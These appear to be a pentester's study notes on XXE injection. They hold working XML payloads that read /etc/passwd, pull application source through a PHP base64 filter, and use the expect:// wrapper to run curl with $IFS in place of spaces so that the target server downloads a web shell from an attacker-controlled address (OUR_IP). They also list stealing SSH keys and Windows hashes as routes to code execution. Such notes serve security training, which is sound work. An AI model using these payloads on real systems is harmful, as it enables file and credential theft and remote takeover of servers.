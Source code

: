 ### Reading Sensitive Files

#### Add the SYSTEM keyword and define the external reference path after it
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```
![[Pasted image 20230216092247.png]]
*Tip: In certain Java web applications, we may also be able to specify a directory instead of a file, and we will get a directory listing instead, which can be useful for locating sensitive files.*

### Reading Source Code

#### Using PHP Filters to output XML data in base64 encoding
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```
![[Pasted image 20230216092706.png]]

### Remote Code Execution with XXE
Easiest methods:
- Steal SSH keys
- Steal hashes in a Windows-based web app

`PHP://expect` filter:
- Requires PHP `expect` module to be installed and enabled

#### Writing a basic PHP web shell and starting a python web server
![[Pasted image 20230216093346.png]]

#### Use the following XML code to execute a `curl` command that downloads our web shell into the remote server
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
*Note: We replaced all spaces in the above XML code with $IFS, to avoid breaking the XML syntax. Furthermore, many other characters like |, >, and { may break the code, so we should avoid using them.*
